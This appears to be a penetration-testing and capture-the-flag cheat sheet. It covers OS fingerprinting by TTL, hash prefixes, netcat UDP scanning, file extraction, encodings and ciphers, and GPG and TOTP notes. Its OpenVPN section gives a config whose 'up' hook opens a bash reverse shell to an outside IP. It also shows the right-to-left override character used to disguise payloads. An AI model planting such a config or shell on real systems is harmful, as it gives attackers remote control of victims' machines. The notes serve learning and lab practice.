 # MISC

In a ping response TTL:\
127 = Windows\
254 = Cisco\
Lo demás,algunlinux

$1$- md5\
$2$or $2a$ - Blowfish\
$5$- sha256\
$6$- sha512

If you do not know what is behind a service, try to make and HTTP GET request.

**UDP Scans**\
nc -nv -u -z -w 1 \<IP> 160-16

An empty UDP packet is sent to a specific port. If the UDP port is open, no reply is sent back from the target machine. If the UDP port is closed, an ICMP port unreachable packet should be sent back from the target machine.\\

UDP port scanning is often unreliable, as firewalls and routers may drop ICMP\
packets. This can lead to false positives in your scan, and you will regularly see\
UDP port scans showing all UDP ports open on a scanned machine.\
o Most port scanners do not scan all available ports, and usually have a preset list\
of “interesting ports” that are scanned.

## CTF - Tricks

In **Windows** use **Winzip** to search for files.\
**Alternate data Streams**: _dir /r | find ":$DATA"_\\

```
binwalk --dd=".*" <file> #Extract everything
binwalk -M -e -d=10000 suspicious.pdf #Extract, look inside extracted files and continue extracing (depth of 10000)
```

### Crypto

**featherduster**\\

**Basae64**(6—>8) —> 0...9, a...z, A…Z,+,/\
**Base32**(5 —>8) —> A…Z, 2…7\
**Base85** (Ascii85, 7—>8) —> 0...9, a...z, A...Z, ., -, :, +, =, ^, !, /, \*, ?, &, <, >, (, ), \[, ], {, }, @, %, $, #\
**Uuencode** --> Start with "_begin \<mode> \<filename>_" and weird chars\
**Xxencoding** --> Start with "_begin \<mode> \<filename>_" and B64\
\
**Vigenere** (frequency analysis) —> [https://www.guballa.de/vigenere-solver](https://www.guballa.de/vigenere-solver)\
**Scytale** (offset of characters) —> [https://www.dcode.fr/scytale-cipher](https://www.dcode.fr/scytale-cipher)

**25x25 = QR**

factordb.com\
rsatool

Snow --> Hide messages using spaces and tabs

## Characters

%E2%80%AE => RTL Character (writes payloads backwards)



## Openvpn Configuration to Shell

```bash
remote 192.168.122.1
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9000<&1 2>&1&'"
```

## GPG keys&#x20;

Dump informations about the key:

```
gpg -d file.gpg
```

List keys owned by the user

```
gpg --list-keys
```

### PYOTP

Building a Python Script to generate TOTP for MFA (the NTPDate failed because i didn't use -q. Nmap would have worked with -sV)

{% embed url="https://github.com/pyauth/pyotp" %}
PyOTP is a Python library for generating and verifying one-time passwords. It can be used to implement two-factor (2FA) or multi-factor (MFA) authentication methods in web applications and in other systems that require users to log in.
{% endembed %}

